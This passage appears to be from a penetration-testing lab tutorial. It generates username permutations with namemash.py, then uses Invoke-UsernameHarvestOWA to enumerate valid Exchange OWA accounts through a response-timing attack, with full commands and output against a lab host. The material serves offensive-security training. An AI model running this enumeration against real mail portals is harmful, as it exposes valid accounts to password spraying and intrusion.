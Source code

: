 [namemash.py](https://gist.github.com/superkojiman/11076951) is a python script that I've used for as long as I can remember. It will take a person's full name, and transform it into possible username permutations.

```
root@kali:~# /opt/namemash.py names.txt >> possible-usernames.txt
root@kali:~# head -n 5 possible-usernames.txt
bobfarmer
farmerbob
bob.farmer
farmer.bob
farmerb
```

Copy the list across to the Windows VM.

```
PS C:\> pscp root@kali:/root/possible-usernames.txt .
```

`Invoke-UsernameHarvestOWA` uses a timing attack to validate which (if any) of these usernames are valid.

```
PS C:\> Invoke-UsernameHarvestOWA -ExchHostname 10.10.15.100 -Domain CYBER -UserList .\possible-usernames.txt -OutFile valid.txt
[*] Now spraying the OWA portal at https://10.10.15.100/owa/
Determining baseline response time...
Response Time (MS)       Domain\Username
770                      CYBER\nigojk
766                      CYBER\hnIYRl
763                      CYBER\DlQFbq
767                      CYBER\ghyWXj
771                      CYBER\uQbXAI

         Baseline Response: 767.4

Threshold: 460.44
Response Time (MS)       Domain\Username
764                      CYBER\THdtMw
776                      CYBER\rVNvmq
854                      CYBER\AvaPOc
767                      CYBER\ZQpHFz
764                      CYBER\WYTZHK
77                       CYBER\iyates
[*] Potentially Valid! User:CYBER\iyatesgs
[*] A total of 1 potentially valid usernames found.
Results have been written to valid.txt.
```

This output shows one valid result for **CYBER\iyates**.

You can run this again and target `-Domain DEV`, which will also find valid results for:

* DEV\bfarmer
* DEV\jking
* DEV\jadams
